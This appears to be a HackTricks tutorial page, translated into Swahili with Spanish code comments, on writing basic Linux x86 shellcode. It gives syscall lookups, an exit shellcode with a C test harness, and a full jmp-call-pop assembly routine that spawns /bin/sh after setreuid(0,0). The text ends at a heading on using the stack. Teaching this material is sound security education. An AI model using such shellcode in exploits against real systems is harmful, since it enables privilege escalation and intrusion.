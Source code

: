 # Kudukua Linux (Msingi) (SPA)

<details><summary><strong>Jifunze kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary></details>

## **2.SHELLCODE**

Angalia mapumziko ya kernel: cat /usr/include/i386-linux-gnu/asm/unistd\_32.h | grep “\_\_NR\_”

setreuid(0,0); // \_\_NR\_setreuid 70\
execve(“/bin/sh”, args\[], NULL); // \_\_NR\_execve 11\
exit(0); // \_\_NR\_exit 1

xor eax, eax ; safisha eax\
xor ebx, ebx ; ebx = 0 kwa sababu hakuna hoja ya kupitisha\
mov al, 0x01 ; eax = 1 —> \_\_NR\_exit 1\
int 0x80 ; Tekeleza syscall

**nasm -f elf assembly.asm** —> Inarudi .o\
**ld assembly.o -o shellcodeout** —> Inatoa kutekelezeka iliyoundwa na msimbo wa mkusanyiko na tunaweza kutoa opcodes na **objdump**\
**objdump -d -Mintel ./shellcodeout** —> Ili kuona kwamba kwa kweli ni shellcode yetu na kutoa OpCodes

**Thibitisha kwamba shellcode inafanya kazi**
```
char shellcode[] = “\x31\xc0\x31\xdb\xb0\x01\xcd\x80”

void main(){
void (*fp) (void);
fp = (void *)shellcode;
fp();
}<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```
Ili kuhakikisha kwamba wito wa mfumo unafanyika kwa usahihi, programu inapaswa kuchakatwa na wito wa mfumo unapaswa kuonekana katika **strace ./PROGRAMA\_COMPILADO**

Wakati wa kuunda shellcodes, unaweza kutumia hila. Maagizo ya kwanza ni jump kwenda kwenye wito. Wito unaita msimbo wa awali na pia huingiza EIP kwenye stack. Baada ya maagizo ya wito, tumeweka string tunayohitaji, kwa hivyo na EIP hiyo tunaweza kuelekeza kwenye string na kuendelea kutekeleza msimbo.

EJ **HILA (/bin/sh)**:
```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```
**Kutumia Stack(/bin/sh):**